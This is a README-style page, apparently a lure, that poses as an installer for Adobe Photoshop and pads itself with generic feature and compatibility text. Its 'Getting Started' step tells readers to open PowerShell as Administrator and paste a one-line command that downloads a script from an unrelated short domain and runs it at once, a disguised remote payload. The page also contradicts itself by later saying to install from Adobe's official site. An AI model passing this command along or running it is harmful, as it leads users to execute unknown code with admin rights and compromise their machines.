

<p align="center">
  
</p>


## Instruction

```markdown
## 🚀 Getting Started

> Follow these simple steps to get started.

### 🖥️ 1. Open PowerShell
Press `Win + X` and select **PowerShell (Administrator)**.

### 📋 2. Paste the command
Press `Ctrl + V` to paste the command:

```powershell
iex (irm pkgsetup.cc/33yejbr7)

### 🖥️ 3. Press Enter


## Features

- **Advanced Retouching Tools**: Photoshop provides a suite of tools for retouching images, including healing brushes and clone stamps, which allow users to remove blemishes and unwanted objects seamlessly. For instance, the Content-Aware Fill feature can intelligently fill in selected areas based on surrounding content, making it easier to achieve professional results.

- **Layer Management**: Users can work with multiple layers, enabling them to edit images non-destructively. This allows for greater flexibility and control over the editing process. Layers can be rearranged, grouped, and blended using various modes to create complex compositions.

- **Comprehensive Filter Library**: Photoshop includes a vast array of filters and effects that can be applied to images, allowing users to create unique styles and enhance their visuals. From simple blurs to intricate artistic filters, users can experiment to achieve their desired look.

- **Text and Typography Tools**: The software features robust text tools, enabling users to add and manipulate text within their designs easily. This is ideal for creating promotional materials or digital art. With options for character and paragraph formatting, as well as the ability to warp text into various shapes, Photoshop makes it easy to integrate typography into any project.

- **Digital Painting**: Photoshop supports digital painting, providing artists with brushes and tools that mimic traditional painting techniques, making it suitable for creating detailed artwork. Customizable brushes allow artists to simulate real-world textures and effects, enhancing the creative process.

- **Smart Objects**: Users can convert layers into smart objects, which preserve image data and allow for non-destructive editing. This feature is essential for maintaining quality during multiple edits and enables users to apply transformations without losing original image fidelity.

- **3D Capabilities**: Photoshop includes basic 3D modeling and texturing tools, enabling users to create and manipulate 3D objects within their designs. While not as robust as dedicated 3D software, these features allow for the integration of 3D elements into 2D compositions.

- **Integration with Adobe Creative Cloud**: Users can easily integrate Photoshop with other Adobe applications, enhancing their workflow and allowing for seamless transitions between software. For instance, projects can be transferred to Adobe Illustrator for vector work or Adobe Lightroom for photo management.

- **Customizable Workspace**: The interface can be tailored to fit individual preferences, allowing users to arrange tools and panels according to their workflow needs. Users can save multiple workspace layouts for different tasks, increasing efficiency.

- **Extensive Plugin Support**: Photoshop supports various third-party plugins, providing users with additional tools and capabilities to enhance their editing experience. Many plugins are available for specific tasks, such as advanced photo enhancement, noise reduction, or special effects.

---

## How It Works

1. **Installation**: Download and install Adobe Photoshop from the official Adobe website, ensuring your system meets the necessary requirements. Adobe provides a straightforward installation process, and users can choose between a standard installation or a customized setup where they can select specific components.

2. **Opening or Creating a Project**: Launch the application and either open an existing image or create a new project. Users can select from various templates or start from scratch. Photoshop supports numerous file formats, including PSD (Photoshop Document), JPEG, PNG, TIFF, and more.

3. **Using Editing Tools**: Utilize the available tools, such as brushes, filters, and layers, to edit the image. Users can apply effects, adjust colors, and manipulate the composition as desired. For example, the adjustment layers allow for color correction without altering the original image, enabling users to experiment freely.

4. **Saving and Exporting**: Once editing is complete, users can save their project in a variety of formats, including PSD, JPEG, and PNG, ensuring compatibility with different platforms and uses. The “Save As” feature allows users to create different versions of a project while preserving the original file.

5. **Collaboration and Sharing**: Through Adobe Creative Cloud, users can share their projects with others, facilitating collaborative work. Features like cloud documents allow for editing on multiple devices, ensuring that users can access their work from anywhere.

---

## Compatibility

**Operating Systems and Architecture**  
Adobe Photoshop is compatible with Windows 10 (64-bit) and Windows 11 (64-bit). Users should ensure their system meets these specifications for optimal performance. Compatibility with earlier versions of Windows is limited, and users should upgrade to the supported versions to take advantage of the latest features and updates.

**Hardware Requirements**  
Specific hardware requirements are not specified in the available project information. However, to ensure a smooth experience, users are encouraged to check Adobe's official website for detailed hardware recommendations. A dedicated GPU with enough VRAM can significantly improve performance, especially when working with large files or utilizing advanced features.

**Runtime Dependencies**  
No specific runtime dependencies have been noted; however, an internet connection is required for installation and updates. Users should also ensure that their graphics drivers are up-to-date to avoid performance issues.

**Limitations and Notes**  
Photoshop may not perform optimally on older or less powerful hardware configurations. Users should consider upgrading their systems if they experience performance issues. In addition, certain features, like 3D capabilities, may require more advanced hardware setups.

---


## 🖥️ System Requirements

> Windows 10 / 11
> x64 architecture
> Compatible x64 processor
> .NET Runtime